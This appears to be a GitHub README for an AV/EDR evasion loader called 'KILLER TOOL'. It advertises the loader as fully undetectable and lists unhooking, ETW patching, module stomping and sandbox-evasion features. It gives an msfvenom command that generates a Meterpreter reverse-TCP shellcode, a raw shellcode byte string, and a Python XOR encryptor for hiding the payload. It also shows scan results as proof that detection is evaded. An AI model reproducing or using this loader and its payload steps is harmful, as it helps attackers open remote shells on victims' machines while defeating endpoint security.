 # KILLER TOOL (EDR Evasion)
It's a AV/EDR Evasion tool created to bypass security tools for learning, until now the tool is FUD.

# Features:

* Module Stomping for Memory scanning evasion
* DLL Unhooking by fresh ntdll copy
* IAT Hiding and Obfuscation & API Unhooking
* ETW Patchnig for bypassing some security controls
* Included sandbox evasion techniques & Basic Anti-Debugging
* Fully obfuscated (Functions - Keys - Shellcode) by XOR-ing
* Shellcode reversed and Encrypted
* Moving payload into hallowed memory without using APIs 
* Runs without creating new thread & Suppoers x64 and x86 arch

# How to use it

Generate your shellcode with msfvenom tool :

      msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST<IP> LPORT<PORT> -f py
      
 Then copy the output into the encryptor XOR function :
 
        data = b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

        key  = 0x50 # Put here your key as byte like for example (0x90 or 0x40 or 0x30) and more...

        print('{ ', end='')
        for i in data:
            print(hex(i ^ key), end=', ')

        print("0x0 };") # Notice that it adds one byte "0x0" to the end.

And then you can handle your decryption function, It's not easy for script kiddies ^-^, you can read more about it in my articale : 

* Part 1 => https://medium.com/@0xHossam/av-edr-evasion-malware-development-933e50f47af5
* Part 2 => https://medium.com/@0xHossam/av-edr-evasion-malware-development-p2-7a947f7db354

This is the result when running :

![image](https://user-images.githubusercontent.com/82971998/230731975-a70abd1c-279b-4e79-9e91-6b5212b7db9a.png)

# PoC (Proof-of-Concept) :

https://antiscan.me/images/result/07OkIKKhpRsG.png

![image](https://user-images.githubusercontent.com/82971998/230732045-ca2638fe-4f3c-4926-8f94-4fff817ca585.png)

# Important Notes

* First thanks to Abdallah Mohammed for helping me to develop it ^_^
* The tool is for educational purposes only
* Compile the code with visual studio compiler

